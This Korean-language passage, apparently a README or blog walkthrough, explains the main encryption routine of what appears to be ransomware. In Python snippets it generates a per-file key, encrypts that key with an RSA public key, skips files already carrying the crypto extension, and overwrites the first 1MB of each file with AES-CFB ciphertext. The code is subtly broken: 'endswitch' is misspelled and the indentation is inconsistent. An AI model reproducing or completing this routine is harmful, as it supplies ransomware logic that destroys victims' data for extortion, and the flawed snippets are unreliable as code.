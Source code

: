 주요 암호화 함수이며 다음과 같이 동작한다.

1. publicKey와 file path를 파라미터로 함수를 호출한다.

    ```python
    def symEncryptFile(publicKey, file):
    ```

2. 특정 파일에 대한 랜덤 키를 생성한다.

    ```python
    key = generateKey()
    ```

3. publicKey로 랜덤 키를 암호화한다.

    ```python
    encryptedKey = rsaEncryptSecret(key, publicKey)
    ```

4. 파일에 대한 암호화 사이즈(n byte)를 정의한다. 예시로 1MB를 사용한다.

    ```python
    buffer_size = 1048576
    ```

5. 파일이 이미 암호화되었는지 확인한다. 이미 되어있을 경우 무시한다.

    ```python
    if file.endswitch("." + cryptoName):
    		print('File is already encrypted, skipping')
    		return
    ```

6. 파일의 첫 n 바이트를 암호화하고 content를 overwrite 한다.

    ```python
    # Open the input and output files
    		input_file = open(file, 'r+b')
    		print("Encrypting file: "+ file)
    		output_file = open(file + '.' + cryptoName, 'w+b')

    # Create the cipher object and encrypt the data
    		cipher_encrypt = AES.new(key, AES.MODE_CFB)

    # Encrypt file first
    		input_file.seek(0)
    		buffer = input_file.read(buffer_size)
    		ciphered_bytes = cipher_encrypt.encrypt(buffer)

    input_file.seek(0)
    input_file.write(ciphered_bytes)
    ```
